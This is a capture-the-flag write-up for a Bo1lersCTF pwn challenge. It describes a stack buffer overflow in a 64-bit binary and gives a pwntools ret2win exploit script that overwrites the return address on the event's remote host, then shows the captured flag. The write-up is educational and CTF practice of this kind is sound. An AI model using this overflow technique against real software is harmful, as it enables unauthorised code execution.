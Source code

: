 ```yaml
---
layout: post
title: Bo1lersCTF | shall-we-play-a-game
date: 2024-04-17
tags: ['Bo1lersCTF']
---
```

# Pwn/shall-we-play-a-game

In this challenge we were given a ELF 64 binary `chal` . On running the binary it was asking for the inputs multiple times .

On decompiling and going through the code we see that at fourth input the buffer was was of smaller size than the size of input being taken using fgets. So we can overwrite the return address. This was a ret2win challenge.

Using pwndbg we find the offset and the required functions address.

```python
from pwn import *

elf=context.binary=ELF('./chal')
p=remote('gold.b01le.rs',4004)

offset=72
win=0x00000000004011dd
ret=0x000000000040101a

p.sendline(b'a')
p.sendline(b'a')
p.sendline(b'a')

payload=b'a'*offset+ p64(ret) + p64(win) +b'a'*10 
p.sendline(payload)
p.interactive()
```

Running this we get the flag 

`bctf{h0w_@bo0ut_a_n1ce_g@m3_0f_ch3ss?_ccb7a268f1324c84}`